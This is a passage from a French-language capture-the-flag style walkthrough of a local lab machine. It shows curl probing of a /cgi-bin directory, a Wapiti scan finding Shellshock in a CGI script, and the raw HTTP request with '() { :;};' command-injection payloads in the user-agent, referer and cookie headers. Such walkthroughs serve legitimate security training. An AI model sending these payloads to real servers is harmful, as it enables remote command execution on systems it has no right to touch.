 Mais rien ne semblait intéressant dedans.

Finalement ce qu'on cherchait était bien à la racine mais selon qu'un slash terminal soit placé ou non on obtenait soit un 404 (status ignoré par `Feroxbuster`) soit un 403.

```bash
$ curl -I http://192.168.56.114/cgi-bin
HTTP/1.1 404 Not Found
Date: Mon, 20 Feb 2023 21:53:33 GMT
Server: Apache/2.4.25 (Debian)
Content-Type: text/html; charset=iso-8859-1

$ curl -I http://192.168.56.114/cgi-bin/
HTTP/1.1 403 Forbidden
Date: Mon, 20 Feb 2023 21:53:36 GMT
Server: Apache/2.4.25 (Debian)
Content-Type: text/html; charset=iso-8859-1
```

Via une énumération rapide on trouve un cgi nommé `underworld` qui semble afficher l'uptime.

## Une faille anthique

`Wapiti` dispose d'un module pour la faille shellshock :

```bash
$ wapiti -u http://192.168.56.114/cgi-bin/underworld -m shellshock --scope url
ujson module not found, using json

 ██╗    ██╗ █████╗ ██████╗ ██╗████████╗██╗██████╗
 ██║    ██║██╔══██╗██╔══██╗██║╚══██╔══╝██║╚════██╗
 ██║ █╗ ██║███████║██████╔╝██║   ██║   ██║ █████╔╝
 ██║███╗██║██╔══██║██╔═══╝ ██║   ██║   ██║ ╚═══██╗
 ╚███╔███╔╝██║  ██║██║     ██║   ██║   ██║██████╔╝
  ╚══╝╚══╝ ╚═╝  ╚═╝╚═╝     ╚═╝   ╚═╝   ╚═╝╚═════╝  
Wapiti 3.1.6 (wapiti-scanner.github.io)
[*] Be careful! New moon tonight.
[*] Saving scan state, please wait...

[*] Launching module shellshock
URL http://192.168.56.114/cgi-bin/underworld seems vulnerable to Shellshock attack!
```

On peut regarder dans le rapport HTML généré à quoi ressemble la requête d'attaque :

```http
GET /cgi-bin/underworld HTTP/1.1
host: 192.168.56.114
connection: keep-alive
accept-language: en-US
accept-encoding: gzip, deflate, br
accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
user-agent: () { :;}; echo; echo; echo -e '\x30\x37\x39\x34\x66\x38\x35\x42\x35\x63\x41\x64\x46\x44\x32\x41\x61\x41\x31\x32\x32\x33\x35\x39\x35\x34\x41\x44\x33\x44\x32\x46';
referer: () { :;}; echo; echo; echo -e '\x30\x37\x39\x34\x66\x38\x35\x42\x35\x63\x41\x64\x46\x44\x32\x41\x61\x41\x31\x32\x32\x33\x35\x39\x35\x34\x41\x44\x33\x44\x32\x46';
cookie: () { :;}; echo; echo; echo -e '\x30\x37\x39\x34\x66\x38\x35\x42\x35\x63\x41\x64\x46\x44\x32\x41\x61\x41\x31\x32\x32\x33\x35\x39\x35\x34\x41\x44\x33\x44\x32\x46';
```
